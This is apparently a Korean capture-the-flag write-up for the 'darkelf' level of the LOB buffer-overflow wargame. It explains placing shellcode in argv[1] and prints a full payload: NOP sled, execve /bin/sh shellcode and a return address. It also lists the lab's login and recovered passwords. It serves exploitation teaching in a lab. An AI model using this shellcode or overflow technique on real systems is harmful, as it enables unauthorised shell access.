





# [LOB] darkelf Write-up



```
login : wolfman
Password : love eyuna
```

위의 계정으로 로그인하면 된다.

이번 문제의 소스코드는 다음과 같다.



환경변수, 버퍼를 초기화하고, argv[1]의 길이를 체크하기 때문에 RET 주소 뒤에 쉘코드를 넣는 방법을 사용할 수 없다. 하지만 버퍼만 초기화하고, argv[1]은 초기화하지 않는다. 따라서 argv[1] 앞 쪽, 즉 SFP 앞부분에 쉘코드를 넣고 리턴주소를 argv[1]의 시작 주소로 넣어주면 문제가 풀린다.

 

리턴할 때 오류가 생겨 core dump 가 발생했기 때문에 esp는 RET 아래(argc)를 가리키고 있을 것이다. 
 esp를 확인해보면 strcpy() 함수 때문에 0(NULL) 값으로 덮어씌워진 argc가 있고, 그 다음에 `0xbffffb24`가 argv 주소이다.  
 해당 주소로 가면 순서대로 argv[0], argv[1]이 있다. 

 

 `0xbffffc25`가 argv[1]의 주소이다. 인자로 넣어준 값들이 들어간 것을 확인해볼 수 있다.

```
./darkelf `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x25\xfc\xff\xbf"'`
```

페이로드는 NOP(19byte) + 쉘코드(25byte) + RET(argv[1]의 주소 4byte)로 작성하면 된다.

 

쉘을 땄고, 비밀번호는 **kernel crashed** 이다.
